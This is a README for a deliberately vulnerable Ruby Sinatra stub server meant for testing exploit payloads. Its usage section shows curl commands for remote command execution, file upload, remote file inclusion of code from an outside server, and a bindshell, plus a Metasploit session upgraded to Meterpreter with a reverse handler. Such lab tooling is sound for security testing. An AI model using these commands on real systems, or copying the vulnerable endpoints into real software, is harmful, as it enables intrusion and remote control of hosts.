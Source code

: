 # Paystub Sinatra

This is some stub code for testing exploit payloads under a ruby runtime.

## Installation

Short version: you do not want to install this. But if you must:

    git clone https://github.com/ryanbreed/paystub-sinatra
    cd paystub-sinatra
    bundle install --path=vendor/bundle
    bundle exec rackup -o 0.0.0.0 -p 8000

## Usage

Seriously, you do not want to use this. It contains nothing but bad ideas.

### oneshot command execution

    curl http://doomed:8000/oneshot?cmd=id
    curl http://doomed:8000/oneshot?cmd=aWQK&encode=base64
    curl -XPOST -d 'cmd=aWQK&encode=base64' http://doomed:8000/oneshot

### file upload via PUT

    cat $(which id) | curl -XPUT --data-binary @- "http://doomed:8000/upload/id.bin"

### remote file inclusion

    curl http://doomed:8000/rfi?url=http://remote-server/path/to/code.rb

### fork a bindshell

    curl "http://doomed:8000/bindshell?port=4455&runit=true"
    echo id | nc doomed 4455
    echo 'exit!' | nc doomed 4455

### upgrade bindshell to meterpreter
    curl "http://doomed:8000/bindshell?port=4455&runit=true"
    ./msfconsole
    use payload/multi/handler
    set PAYLOAD ruby/shell_bind_tcp
    set RHOST doomed
    set LPORT 4455
    exploit

    [*] Started bind handler
    [*] Starting the payload handler...
    [*] Command shell session 1 opened ...
    ^Z

    Background session 1? [y/N]  y
    msf exploit(handler) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on attacker:4433
    [*] Starting the payload handler...
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to doomed
    [*] Command stager progress: 100.00% (668/668 bytes)
    msf exploit(handler) > [*] Meterpreter session 2 opened
## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/ryanbreed/paystub-sinatra. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).
